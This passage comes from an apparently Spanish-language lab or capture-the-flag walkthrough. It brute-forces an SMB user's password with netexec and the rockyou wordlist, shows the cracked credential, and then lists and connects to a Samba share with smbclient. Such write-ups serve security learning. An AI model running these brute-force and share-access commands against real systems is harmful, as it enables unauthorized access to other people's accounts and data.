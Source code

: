 Veremos estas lineas interesantes del archivo, nos esta mostrando de primeras un usuario llamado `xerosec` y despues un `magic script` con el archivo `config.sh`, pero nos vamos a centrar en el usuario, vamos a realizar `fuerza bruta` con dicho usuario para encontrar sus credenciales en `SMB`.

## NetExec

Antes de realizar la fuerza bruta, vamos a limpiar el `rockyou.txt` para que este formateado en `UTF-8` y no de errores con la herramienta.

```shell
iconv -f ISO-8859-1 -t UTF-8//TRANSLIT /<PATH>/rockyou.txt > rockyou_utf8.txt
```

Una vez echo esto, vamos a realizar la fuerza bruta.

```shell
netexec smb <IP> -u 'xerosec' -p rockyou_utf8.txt
```

Info:

```
............................<RESTO DE CODIGO>......................................
SMB         192.168.5.93    445    MAGIC            [+] MAGIC\xerosec:david1
```

Veremos que las ha encontrado, por lo que vamos a listar los recursos compartidos que tiene dicho usuario, que deberia de aparecer el `/tmp`.

```shell
smbclient -L //<IP>/ -U xerosec
```

Metemos como contraseña `david1`....

Info:

```
Password for [WORKGROUP\xerosec]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      Temp Directory
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
```

Veremos que se listo de forma correcta y por lo que vemos, vemos el recurso `tmp`, vamos a conectarnos a el.

```shell
smbclient //<IP>/tmp -U xerosec
```

Metemos como contraseña `david1`...

```
Password for [WORKGROUP\xerosec]:
Try "help" to get a list of possible commands.
smb: \>
```
